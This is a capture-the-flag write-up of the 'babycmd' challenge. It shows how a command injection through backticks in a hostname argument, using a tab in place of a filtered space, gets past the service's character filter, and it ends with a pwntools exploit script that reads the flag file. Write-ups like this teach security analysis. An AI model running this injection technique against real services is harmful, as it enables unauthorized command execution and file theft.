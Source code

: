 ### Solved by superkojiman

babycmd is a 1 point challenge. Connecting to the specified server presents the following menu: 

```
koji@pwnbox:~$ ./sploit.py 
[+] Opening connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me on port 15491: Done

Welcome to another Baby's First Challenge!

koji@pwnbox:~$ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: 
```

Entering one of the commands would call the actual command on the server and pass it a hostname or IP address specified and return the result. Eg: 

```
: host google.com
google.com has address 74.125.228.230
google.com has address 74.125.228.231
google.com has address 74.125.228.232
google.com has address 74.125.228.233
google.com has address 74.125.228.238
google.com has address 74.125.228.224
google.com has address 74.125.228.225
google.com has address 74.125.228.226
google.com has address 74.125.228.227
google.com has address 74.125.228.228
google.com has address 74.125.228.229
google.com has IPv6 address 2607:f8b0:4004:808::1007
google.com mail is handled by 10 aspmx.l.google.com.
google.com mail is handled by 20 alt1.aspmx.l.google.com.
google.com mail is handled by 30 alt2.aspmx.l.google.com.
google.com mail is handled by 40 alt3.aspmx.l.google.com.
google.com mail is handled by 50 alt4.aspmx.l.google.com.
Commands: ping, dig, host, exit
: 
```

I loaded the binary in gdb-peda and looked at the output of checksec:

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```

That’s a lot of security for a 1 point challenge, so I assumed no stack smashing was required. I decided to go with the assumption that babycmd was vulnerable to command injection. 

After spending a bit of time reversing the binary, I noticed that each command was run slightly differently depending on the argument passed to it. For example, if 'host' was called with an IP address, it would build the command to pass to popen() as "host %s". However, if I passed a hostname like pwn.com, it would build the command as "host \"%s\"". That seemed odd, so I decided to dig into it further.

When the 'host' and 'dig' commands are used, two functions are called to check each character in the argument. The first function, sub_d65() filters out !, ", #, $, %, &, |, and *. This first check allows characters 0x3b to 0x7f in the ASCII table. 

The second function does another check and is at sub_dcc(). When this function returns a non-zero value, the command is successfully built and can be used by popen() somewhere down the line. So essentially it looks like this:

```c
sub_10bd() {
    if (sub_d65()) {
        if (inet_aton(host_arg)) {
            // IP address provided
            sprintf(command, "host %s", inet_ntoa(host_arg));
        } else {
            // hostname provided
            if (sub_dcc() != 0) {
                sprintf("command, "host \"%s\", host_arg); 
            }
        }
    }
}
```


Injecting a command into the argument will surely cause inet_aton() to fail, so that means we need to make sure sub_d65() and sub_dcc() succeed so that the injection we send will work. 

As it turns, out this is fairly easy since the backtick character isn't blacklisted. Therefore we could send something like: pwn\`uname\`.com and it would return:

```text
koji@pwnbox:~$ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host pwn`uname`.com
Host pwnLinux.com not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

Notice that the output of uname (Linux) is visible in the error message from 'host'. There was one small problem; the space character was filtered out. Fortunately this was easily fixed by using a tab character instead. 

From here on it was easy to enumerate the target server. I found out that the service was running under the user babycmd (of course) and that the flag was in /home/babycmd. Reading /home/babycmd/flag gave the following:

```
koji@pwnbox:~$ ./sploit.py 
[+] Opening connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me on port 15491: Done

Welcome to another Baby's First Challenge!

Commands: ping, dig, host, exit
: 
host: 'pwnThe flag is: Pretty easy eh!!~ Now let's try something hArd3r, shallwe??.com' is not a legal name (label too long)
Commands: ping, dig, host, exit
: 
[*] Closed connection to babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me port 15491
```

The flag is: **Pretty easy eh!!~ Now let's try something hArd3r, shallwe??**

Here's the exploit I wrote up:

```python
#!/usr/bin/env python

from pwn import *

r = remote("babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me", 15491)

print r.recv()

cmd = "cat\t/home/babycmd/flag"     # can't use space, but we can use tab

buf = ""
buf += "host "      # host command is vulnerable
buf += "pwn`"       # we can use `` to execute commands betweent he hostname
buf += cmd          # inject command here
buf +="`.com"       # host needs this to be a valid hostname
buf += "\n"

r.send(buf)
print r.recv()
print r.recv()
```

